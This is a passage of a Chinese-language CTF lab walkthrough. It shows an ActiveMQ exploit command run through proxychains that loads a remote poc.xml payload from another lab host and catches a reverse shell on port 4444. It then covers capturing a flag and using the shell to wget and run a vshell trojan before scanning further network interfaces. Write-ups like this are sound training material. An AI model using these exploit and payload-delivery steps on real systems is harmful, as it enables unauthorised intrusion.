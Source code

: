 
```
proxychains java -jar activemq-exp.jar 10.10.10.70 61616 xml http://10.10.10.60/poc.xml
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAksj7AViaFmxOhD7iagBNoS14YxyGqlVHu3CRBibowcQjcopDjLpJLobDibL2DDibArNcuoIVnu0TOhSicA/640?wx_fmt=png&from=appmsg "")  
  
  
记得在10.10.10.60上监听4444端口  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAksj7AViaFmxOhD7iagBNoS14M2JMUXHmWrbCyZibAr2KIjTD9D9fbZkSwsibticleWv6KHGF93DZicKnicw/640?wx_fmt=png&from=appmsg "")  
  
  
然后执行poc  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAksj7AViaFmxOhD7iagBNoS14bPdJ6M4qw2RepiaGZKzl7bst5QftXiadCq1gCFvDWTaMvWuGSzkvQfAw/640?wx_fmt=png&from=appmsg "")  
  
  
成功反弹，在根目录下获得flag  
  

```
flag7{5b458b1b-6668-42f7-9307-657941f3a0b0}
```

  
  
# 第四层  
  
  
现在要利用反弹的shell进行一个vshell的上线，现在就是先生成正向的木马，进行上传到刚才10.10.10.60的靶机上  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAksj7AViaFmxOhD7iagBNoS14rOhuzPeK0fJtQIrfPXwLKQibJQlFibuuzW1RSPyqTvx1kypp1FFdkHaA/640?wx_fmt=png&from=appmsg "")  
  
  
然后再反弹的shell中进行wget,并执行文件  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAksj7AViaFmxOhD7iagBNoS14Y3h03RZ5jibbogfHAfyVgPzHx60HT81q9B6b8WgEoAv6Y33SMFMej5Q/640?wx_fmt=png&from=appmsg "")  
  
  
执行以后现在就是，去正向连接  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAksj7AViaFmxOhD7iagBNoS14NRsfiag7eQib2kCMkPa0icdFuMojRExC7uuAiag0fW1mErfNg8YLZKJ6og/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAksj7AViaFmxOhD7iagBNoS14UeqmvJOmdOiaLuicJ3PAgaAR3sZYSZ7AyCkZRwBTHUMPGtKSoprc7kPQ/640?wx_fmt=png&from=appmsg "")  
  
  
成功上线，老样子，进行网卡收集以及扫描  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAksj7AViaFmxOhD7iagBNoS146dr9NntSGPlXXWvtRcMibwPJicz3oshEL43DRfrRy2iczTtiaKK36My12w/640?wx_fmt=png&from=appmsg "")  
  
  
当然两张网卡都会扫  
  
